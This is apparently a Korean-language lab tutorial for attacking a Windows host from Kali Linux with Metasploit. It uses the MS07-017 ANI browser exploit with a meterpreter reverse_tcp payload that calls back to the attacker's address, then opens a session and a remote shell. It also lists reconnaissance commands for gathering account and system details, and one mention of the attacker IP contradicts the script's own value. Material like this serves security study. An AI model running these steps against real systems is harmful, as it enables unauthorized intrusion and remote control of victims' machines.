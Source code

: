 표적 시스템의 정보 수집을 통해 다음과 같은 정보를 수집해야한다.

- 표적시스템의 네트워크 디폴드 게이트웨이 정보
  - ifconfig
- 표적시스템의 운영체제 버전
  - systeminfo
- 표적시스템 상의 사용자 계정 목록
  - net user

<br>

> Kali에서 진행한다.

```shell
kali# cd ~/Desktop
kali# vim ms07_017_meterpreter_reverse_tcp.rc
```

<br>

> ms07_017_meterpreter_reverse_tcp.rc

```vim
use exploit/windows/browser/ms07_017_ani_loadimage_chunksize
set SRVPORT 8080
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.57.10
exploit
```

<br>

스크립트 파일을 생성했으니, msfconsole을 이용하여 스크립트 파일을 실행하여 준다.

```shell
kali# msfconsole -r ms07_017_meterpreter_reverse_tcp.rc
```

<br>

> 윈도우에서 공격자 서버(182.168.57.10)로 접속하여 확인한다.

![9](https://user-images.githubusercontent.com/59737252/164982122-15a0d0db-76b6-490e-9678-85edce5bc395.png)

<br>

> 윈도우의 대한 세션이 칼리리눅스에 보여지는것을 볼 수 있다.

![10](https://user-images.githubusercontent.com/59737252/164982128-106f0df7-dc0a-4fda-b3e4-0bd9d628e641.png)

<br>

> Kali에서 진행한다.

```shell
kali# sessions -l
kali# sessions -i 1
kali# shell
```
